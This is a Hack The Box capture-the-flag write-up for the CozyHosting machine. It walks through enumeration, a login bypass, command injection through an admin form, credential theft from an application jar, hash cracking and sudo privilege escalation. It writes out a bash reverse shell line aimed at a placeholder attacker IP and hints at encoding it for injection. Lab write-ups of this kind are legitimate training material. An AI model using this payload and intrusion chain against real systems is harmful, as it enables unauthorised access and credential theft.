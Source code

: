 ```yaml
---
layout: post
title: "HTB - CozyHosting Writeup"
categories: writeup
---
```


# 1. Initial enumeration
This writeup is meant to give an overview of the challenge's solution without spoiling too much of the key details so you can still have fun while following it !

First and foremost, as usual for any challenge we can run a simple port scan using nmap:
![](/assets/CozyHosting/Selection_063.png)

From this we can already see that the target hosts an HTTP server as well as an SSH server, which probably means that our entry point will probably be found in our browser visiting the site related to this IP; and the SSH server might be useful later once we find a login for it.

Visiting the ip from our browser redirects us to a website (dont forget to add this host in your /etc/hosts file):
![](/assets/CozyHosting/Selection_064.png)

We can quickly see that most links are pointing at the main page, except for the login page:
![](/assets/CozyHosting/Selection_065.png)

However after testing this page for SQL injections (manually or using a tool like sqlmap), this page doesn't seem vulnerable. We can thus continue our enumeration with some dir busting using gobuster:
![](/assets/CozyHosting/Selection_066.png)

This gives us a list of pages to visit, one of which seems to hold valuable information:
![](/assets/CozyHosting/Selection_046.png)

This can be used to bypass the login and access to the admin panel:
![](/assets/CozyHosting/Selection_045.png)

# 2. Foothold
We gained a first access on the site, we now need a way to execute arbitrary commands on the host.
On the adnmin page we can a function to patch hosts:
![](/assets/CozyHosting/Selection_067.png)

We can put arbitrary values in both field and then intercept the request with Burp to tinker with it in Repeater. The idea is to find some inputs that would lead to a reverse shell. A payload like this one:
```bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
should be transformed in a way that will be executed by the request on the server. Using brackets, pipe and a proper encoding you should be able to get a reverse shell from this request!
![](/assets/CozyHosting/Selection_050.png)

However, at this point we are yet to access a user account, we can only see a home for a user named 'josh'.
A jar file is also present in /app, this file should be downloaded on our machine and extracted to inspect its content and find useful information.

![](/assets/CozyHosting/Selection_051.png)

The file application.properties contains credentials for a postegres database so we now need a way to access it as it might be our avenue to compromise a user account.

# 3. Gaining access
We can't access the database directly from our machine, however we could by setting up a tunnel from the client to our machine. This can be done using a tool such as Chisel. The tool must be downloaded and deployed on both sides:

![](/assets/CozyHosting/Selection_072.png)![](/assets/CozyHosting/Selection_073.png) 

We can then access the database from our machine:
![](/assets/CozyHosting/Selection_071.png)

the user table contains two users with a password hash for each of them. Using John the ripper or Hashcat we can easily crack the admin password which is in the rockyou list.
![](/assets/CozyHosting/Selection_059.png)

We can then use this password as well as the username retrieved earlier to connect to our target using SSH. This gives us access to our user flag !

# 4. Privilege escalation
Privilege escalation on this machine relies on a very common method, often found in easy challenges. Using 'sudo -l' you should have enough information to find which command can be exploited to get root access and open the flag in the /root directory ! (This site can help you find what you are looking for: https://gtfobins.github.io !)

Congratulations !